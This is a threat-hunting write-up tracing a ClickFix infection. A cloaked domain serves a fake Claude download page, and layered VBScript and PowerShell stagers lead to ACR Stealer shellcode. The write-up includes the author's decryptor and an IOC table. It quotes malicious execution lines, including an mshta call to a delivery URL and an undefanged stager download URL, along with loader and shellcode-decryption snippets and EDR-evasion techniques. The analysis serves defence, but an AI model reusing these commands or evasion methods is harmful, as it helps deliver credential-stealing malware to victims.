## Incident Overview

While conducting a threat hunting deep dive into a resolved **ClickFix** incident, I tracked the infection chain back to the landing domain `turbowave45[.]com`. The original execution chain on the target Windows workstation was highly indicative of a modern social engineering / fake update lure:

```
chrome.exe → explorer.exe → powershell.exe → mshta.exe https://purematrixa[.]com/1751517
```

The EDR flagged and killed the process at:

```
mshta.exe https://purematrixa[.]com/1751517
```

To dissect the threat actor's infrastructure, I stood up my analysis environments and ran into an intentional, highly strategic discrepancy between how the server responds to different operating systems.

---

## The Tale of Two Operating Systems

### 1. The Defensive Cloak — Linux / Kali Environment

When visiting `turbowave45[.]com` from a Kali Linux VM, the site renders a completely benign, professional-looking corporate SaaS landing page for a platform called **"Turbowave"** — complete with fictitious executive bios and pricing call-to-actions.

**Goal:** Fool automated security scanners, URL reputation engines, and sandboxes (most of which run non-Windows headless environments) into categorizing the domain as safe business infrastructure.














### 2. The Active Lure — Windows Environment

When navigating to the exact same URL from a Windows host, the infrastructure strips away the corporate façade and delivers a **cloned Anthropic Claude download page** with explicit prompts to download Windows binaries (`Download for Windows`, `Windows (arm64)`).

**Goal:** Weaponize the visit and trick the user via a fake verification prompt (ClickFix routine) into executing a malicious PowerShell command.









---

## Why Is This Happening? — Technical Analysis

This is a textbook implementation of **Server-Side Conditional Cloaking** / **User-Agent Targeting**:

```
                   ┌──► [User-Agent: Linux/Kali] ──► Serve Benign SaaS Site (Turbowave)
                   │
[Incoming Request] ┼──► [User-Agent: Windows]   ──► Serve Malicious Lure (Fake Claude Download)
```

The threat actor's backend (or a Traffic Distribution System) inspects the `User-Agent` header before returning any HTML:

1. **OS Filtering:** Non-target OS (Linux, macOS, security crawlers) → safe benign template.
2. **Target Matching:** Windows UA confirmed → drop the cloak, render the fake Claude portal.

---

## Analysis

























Once I identified that the core payload was fragmented and protected by a custom **Linear Congruential Generator (LCG)** decryption loop, I wrote a Python decryptor to extract the next stage from the polyglot MSIX/HTML file without executing it.

**Methodology:**

- **Regex Parsing:** Locate and extract the `included392` array containing out-of-order hex chunks.
- **Dynamic Reassembly:** Extract the `rollingCut` index sequence to stitch chunks back into a continuous byte array.
- **LCG Emulation:** Port the attacker's PRNG math (multiplier, increment, modulus) and run the XOR decryption loop.
- **Artifact Extraction:** Apply the hardcoded string offset to strip leading garbage bytes and write the deobfuscated payload as `1518925_stage2.vbs`.

```python
import re
import sys
import os

def extract_and_decrypt(file_path):
    print(f"[*] Analyzing target file: {file_path}")
    
    try:
        with open(file_path, 'r', encoding='utf-8', errors='ignore') as f:
            content = f.read()
    except Exception as e:
        print(f"[-] Error reading file: {e}")
        return

    array_match = re.search(r'included392=\[(.*?)\];', content)
    if not array_match:
        print("[-] Could not find the 'included392' chunk array.")
        return

    raw_array = array_match.group(1).replace('"', '').replace("'", "")
    included392 = raw_array.split(',')
    print(f"[+] Found hex chunk array with {len(included392)} elements.")

    seq_match = re.search(r'rollingCut=(included392\[\d+\].*?);', content)
    if not seq_match:
        print("[-] Could not find the 'rollingCut' assembly sequence.")
        return

    indices = [int(i) for i in re.findall(r'\[(\d+)\]', seq_match.group(1))]
    print(f"[+] Found assembly sequence requiring {len(indices)} chunks.")

    rolling_cut = "".join([included392[idx] for idx in indices])

    try:
        session_gift = bytes.fromhex(rolling_cut)
        print(f"[+] Reassembled payload length: {len(session_gift)} bytes.")
    except ValueError:
        print("[-] Error converting reassembled string to bytes.")
        return

    # working394=[-12+50-2, 85, 3+8-5, 164+45-23, 221+19-16, 17^109, 98+39-40, 222]
    working394 = [36, 85, 6, 186, 224, 124, 97, 222]
    
    postal_idx    = 18026 - 26       # 18000
    oclc_criticism = 3121 + 80 - 60  # 3141
    sol_paym6     = 65445 + 91       # 65536
    big_socket    = 256
    stack560      = 8
    rea_risk3     = 21168 + 44 - 150 # 21062
    taking557     = -24 + 33         # 9 — substr offset

    print("[*] Initiating LCG decryption...")
    decrypted_chars = []
    
    for i in range(len(session_gift)):
        rea_risk3 = (rea_risk3 * postal_idx + oclc_criticism) % sol_paym6
        key_byte = (rea_risk3 ^ working394[i % stack560]) % big_socket
        decrypted_byte = session_gift[i] ^ key_byte
        decrypted_chars.append(chr(decrypted_byte))

    raw_payload = "".join(decrypted_chars)
    final_vbscript = raw_payload[taking557:]

    output_filename = f"{os.path.basename(file_path)}_stage2.vbs"
    with open(output_filename, "w", encoding="utf-8") as out_f:
        out_f.write(final_vbscript)
        
    print(f"\n[+] Success! Decrypted VBScript written to: {output_filename}")
    print("\n--- Payload Preview ---")
    print(final_vbscript[:400] + "\n\n... [TRUNCATED] ...")

if __name__ == "__main__":
    if len(sys.argv) != 2:
        print("Usage: python3 extract_payload.py <polyglot_file>")
        sys.exit(1)
    target_file = sys.argv[1]
    if not os.path.exists(target_file):
        print(f"[-] Target file '{target_file}' not found.")
        sys.exit(1)
    extract_and_decrypt(target_file)
```





---

## Stage 2 — VBScript Analysis & Process Tree Evasion

The attacker dropped a highly obfuscated VBScript payload. After peeling back the layers, I identified several EDR evasion techniques.

### 1. In-Memory Base64 Decoding

Native VBScript has no built-in Base64 decoder. Instead of dropping a utility to disk, the attacker dynamically instantiates two COM objects:

- `Msxml2.DOMDocument.3.0` — interprets a Base64 string as binary.
- `ADODB.Recordset` — converts that binary blob back into an executable string.

COM object names are passed through a custom hex-to-string decoder to mask intent.

### 2. Breaking the Process Tree

The script instantiates a COM object using CLSID `9BA05972-F6A8-11CF-A442-00A0C90A8F39` — the **ShellWindows** object.

Instead of `WScript.Shell` (which would spawn the next stage directly under `mshta.exe` — a major EDR red flag), execution is routed through `Document.Application.ShellExecute`. The resulting malicious process spawns as a child of **`explorer.exe`**, blending into normal user activity.

### 3. The Stage 3 Payload

Buried inside the VBScript is the `properlyPtr` function — hundreds of concatenated hex strings encoding a Base64 blob. Decoding the first chunk reveals: `POWerSHEll & ...`

Classic Russian-doll layering: **Hex → Base64 → PowerShell** — highly indicative of a C2 stager preparing to load an AMSI bypass or inject shellcode.

### 4. Extraction

A Python script targets the `properlyPtr` function, extracts the hex chunks, converts to Base64, and decodes the final UTF-16LE bytes — dumping the raw Stage 3 payload as `1518925_stage3.ps1`.





---

## Stage 3 — PowerShell Stager

The PowerShell downloader fetched the next stage from:

```
https://6ryuefl.creativecommunityinfo.art/Camel-91267b64-989f-49b4-89b4-9e015844d42d
```

The URL returned 404 by the time of analysis (attacker had taken it down). I relied on a previously saved copy — `6ryuefl.creativecommunityinfo.art.txt` — renamed to `stage3.ps1`.











### First Glance — Heavy Obfuscation

The script opens with hundreds of integer variable assignments:

```powershell
$BL3xvYlrewINp = 747
$Cgn5ZQ4f9GVnkYtfERc9 = 981
# ...
```

These feed into string-building expressions like:

```powershell
$sJky5l5A7J7tvp5mGPv = ([char][int]$C0yy8EJkCjqfira + [char][int]$tMJq86OwDDACYKyqIz7 + ...)
```

At the bottom: a large byte array `$vC72M5R9nWxc8daeen` — the encrypted payload.



### Deobfuscation — Step by Step

**Step 1 — Extract Integer Variables**

Parse every `$VAR = number` line. Evaluate expressions respecting PowerShell operators (`+ - * / \ Xor`), handling inter-variable dependencies. Result: a dictionary of variable names to integer values.

**Step 2 — Decode String Concatenations**

For every `([char][int]$X + ...)` line, substitute values and join characters. Recovered strings include:

- `$sro7j54ekeden` → `"length"`
- `$jxewsgkiggrt` → `"byte[]"`
- `$noqqnitxgwgmca` → 32-byte RC4 key (hex array)
- `$i0Y72rLYP` → `"AMSI_RESULT_NOT_DETECTED"`

**Step 3 — Extract the Byte Array**

Isolate `$vC72M5R9nWxc8daeen`. First bytes `69,105,103,110,90,...` are ASCII `E i g n Z ...` — clearly Base64.

**Step 4 — Base64 Decode → Ciphertext**

Decode the Base64 string → byte array of length 37673. This is the actual ciphertext.

**Step 5 — XOR Decryption**

Key: `AMSI_RESULT_NOT_DETECTED` (cyclic). XOR the ciphertext → result begins `53 65 74 2d 53 74 72 69 63 74 4d 6f 64 65` = `Set-StrictMode` — confirmed another PowerShell script (`final_payload.ps1`).

### Extracting the Final Payload

Modified `final_payload.ps1` to write output instead of executing:

```powershell
# Original:
$wiiztbcny262::$byjufujpjhf525((0x8e));
icm -scriptblock([scriptblock]::create($bojokhyszcc))

# Modified:
$wiiztbcny262::$byjufujpjhf525((0x8e));
$bojokhyszcc | Out-File -FilePath "deobfuscated_output.ps1" -Encoding UTF8
Write-Host $bojokhyszcc
```

Running in a sandboxed PowerShell (`-ExecutionPolicy Bypass`) dumped the final payload.

















---

## Stage 4 — Shellcode Injection

The final payload XOR-decrypts a shellcode blob with a 16-byte key:

```powershell
$key = [byte[]]@(
    0x5b,0x8f,0x21,0x25,
    0x39,0x00,0x33,0x4c,
    0x68,0x2c,0x71,0xe9,
    0x1e,0x46,0x32,0xdd
)

$decrypted = [byte[]]::new($encrypted.Length)
for($i=0;$i -lt $encrypted.Length;$i++){
    $decrypted[$i] = $encrypted[$i] -bxor $key[$i % $key.Length]
}
[System.IO.File]::WriteAllBytes("decrypted_shellcode.bin", $decrypted)
```







Emulated the shellcode with **Speakeasy**:

```bash
$ ls dumped_mem_FILES
api.VirtualAlloc.0x128000.mem
api.VirtualAlloc.0x214000.mem
api.VirtualAlloc.0x50000.mem
emu.shellcode.a0ad599e8e312645a0ca9a580f37b4353264c40c98a467368eab34eba018a526.0x1000.mem
speakeasy_manifest.json
```





Renamed the dumped memory region to `.exe` for static analysis.







```
SHA256: CBDE7169693076DC8F5F77BF1B6AD8E04DE32A16ADD11FBEC09E925C784A859C
```





---

## Final Payload — ACR Stealer

C2 domain extracted from the binary:

```
yw.enhanceblabber[.]cc
```

Pivoting on this domain confirmed the final payload is **ACR Stealer** — an info-stealer previously documented impersonating Claude download pages.





**Reference:** [SANS ISC — Possible ACR Stealer From Page Impersonating Claude](https://isc.sans.edu/diary/Possible+ACR+Stealer+From+Page+Impersonating+Claude/33018)

---

## IOC Summary

| Indicator | Type | Note |
|-----------|------|------|
| `turbowave45[.]com` | Domain | Initial lure / cloaking domain |
| `purematrixa[.]com/1751517` | URL | MSHTA delivery URL |
| `6ryuefl.creativecommunityinfo.art` | Domain | Stage 3 PS1 host |
| `yw.enhanceblabber[.]cc` | Domain | ACR Stealer C2 |
| `CBDE7169693076DC8F5F77BF1B6AD8E04DE32A16ADD11FBEC09E925C784A859C` | SHA256 | Final payload binary |
